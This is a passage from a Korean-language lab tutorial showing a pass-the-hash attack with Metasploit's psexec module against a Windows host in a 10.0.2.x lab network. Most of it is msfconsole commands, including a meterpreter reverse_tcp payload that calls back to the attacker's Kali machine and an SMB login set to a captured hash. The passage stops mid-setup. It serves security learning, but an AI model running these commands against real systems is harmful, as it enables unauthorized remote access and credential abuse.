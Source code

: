 자세한 사항들은 알 수 없지만 share가 있다는 것은 알아냈다.

이제 msfconsole interface로 돌아가서 PsExec 모듈(사용할 모듈) 검색

```
msf5 exploit(windows/smb/ms08_067_netapi) > search psexec
```

우리는 모듈 #10을 사용하고 payload를 설정해준다.

```
msf5 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > show options
```

![4_13](./image4/hashthepass3.png)

필요한 옵션들을 설정해주자

```
msf5 exploit(windows/smb/psexec) > set RHOST [공격할 대상의 IP]
RHOST => 10.0.2.6
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
LHOST => 10.0.2.200
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbpass [hash값 - 첫번째 줄]
```
